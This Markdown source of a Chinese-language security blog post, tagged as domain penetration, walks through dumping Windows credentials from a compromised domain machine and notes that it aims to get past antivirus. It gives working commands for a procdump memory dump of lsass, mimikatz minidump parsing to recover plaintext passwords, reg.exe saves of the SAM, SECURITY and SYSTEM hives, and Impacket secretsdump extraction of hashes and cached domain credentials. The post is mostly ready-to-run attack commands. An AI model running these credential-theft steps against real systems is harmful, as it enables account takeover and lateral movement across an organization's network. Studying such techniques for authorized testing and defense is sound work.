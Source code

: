 ```yaml
---
layout: post
title: 导出域内用户hash或密码记录
date: 2018-12-13 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕
在目标机器上使用mimikatz导出用户密码时经常遇到杀软，本文主要收集各种绕过杀软的小技巧。  

![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/hash_hack.jpg?raw=true) 图片来源于https://www.blackhillsinfosec.com/got-privs-crack-those-hashes/

本文中的方法主要有：  
1、方法一：从内存中dump lsass进程的数据，本地mimikatz读取明文密码（procdump.exe+mimikatz）  
2、方法二：从注册表中读取用户hash（Impacket或Cain）  





### \#0x01 从内存中dump lsass进程的数据后本地读取密码
##### 1、导出lsass进程的内存数据
导出lsass进程的内存数据使用的是微软官方的工具[procdump.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)，肯定可以免杀。  
在目标机器上执行：  
```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
将在本目录下生成lsass.dmp    
##### 2、本地读取lsass.dmp中的密码  
将lsass.dmp下载会本地后使用mimikatz读取密码，注意，本地运行mimikatz的机器版本要于目标机器版本兼容，其对应关系如下：  
[]()

在本地机器上通过mimikatz执行如下命令(注意mimikatz.exe与lsass.dmp同目录)：  
```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```

由于lsass.dmp一般比较大，可能几十甚至上百兆，下载回本地比较困难，若域内有版本满足上图要求且已控并可以运行mimikatz的机器的话，可以在已控的机器上运行如下命令，毕竟域内机器之间传输lsass.dmp要快且方便的多。  
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" >> C:\PerfLogs\log.txt
```

### \#0x02 从注册表中读取用户hash（Impacket或Cain）
##### 1、复制注册表项
需要复制的注册表项有：  
```
HKEY_LOCAL_MACHINE\SAM
HKEY_LOCAL_MACHINE\SECURITY
HKEY_LOCAL_MACHINE\SYSTEM
```
执行如下命令：  
```
C:\> reg.exe save hklm\sam c:\sam.save
C:\> reg.exe save hklm\security c:\security.save
C:\> reg.exe save hklm\system c:\system.save
```
解释下这三个注册表项：  
The SAM subkey refers to information about Security Accounts Manager (SAM) databases for domains. Within each database are group aliases, users, guest accounts, and administrator accounts, plus the name used to log in to the domain, cryptographic hashes of each user's password, and more.

The SECURITY subkey is used to store the security policy of the current user. It's linked to the security database of the domain where the user is logged in, or to the registry hive on the local computer if the user is logged in to the local system domain.

To see the contents of the SAM or SECURITY key, the Registry Editor must instead be opened using the System Account, which has greater permissions than any other user, even a user with administrator privileges.

HKEY_LOCAL_MACHINE\SYSTEM用来解密HKEY_LOCAL_MACHINE\SAM和HKEY_LOCAL_MACHINE\SECURITY，其中HKEY_LOCAL_MACHINE\SAM主要包含本地用户hash和用户的一些属性信息，HKEY_LOCAL_MACHINE\SECURITY主要包含缓存的域用户凭证和LSA Secrets。
##### 2、提取注册表项中的用户hash
提取注册表项中的用户hash有多中工具，常用的有Impacket的secretsdump.py和Cain，Cain的使用见[MSSQL弱口令的几种利用方法](https://pythonpig.github.io/2018/10/25/MSSQL%E5%BC%B1%E5%8F%A3%E4%BB%A4%E7%9A%84%E5%87%A0%E7%A7%8D%E5%88%A9%E7%94%A8%E6%96%B9%E6%B3%95/);这里以secretsdump.py为例进行说明。  
执行以下命令  

获取sam中的用户hash及security中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -sam sam.save -security security.save -system system.save LOCAL
```
执行结果如下所示  
[](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/%E5%AF%BC%E5%87%BA%E5%9F%9F%E5%86%85%E7%94%A8%E6%88%B7hash%E6%88%96%E5%AF%86%E7%A0%81%E8%AE%B0%E5%BD%95/reg_hash%20copy.png?raw=true)

也可以单独获取hash或域用户凭证  
获取sam中的用户hash  
```
secretsdump.py  -sam sam.save -system system.save LOCAL
```
获取security中缓存的域用户凭证和LSA Secrets  
```
secretsdump.py  -security security.save -system system.save LOCAL
```
 

## 未完待续……

### \#0x03 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [HKEY_LOCAL_MACHINE (HKLM Registry Hive)](https://www.lifewire.com/hkey-local-machine-2625902)  


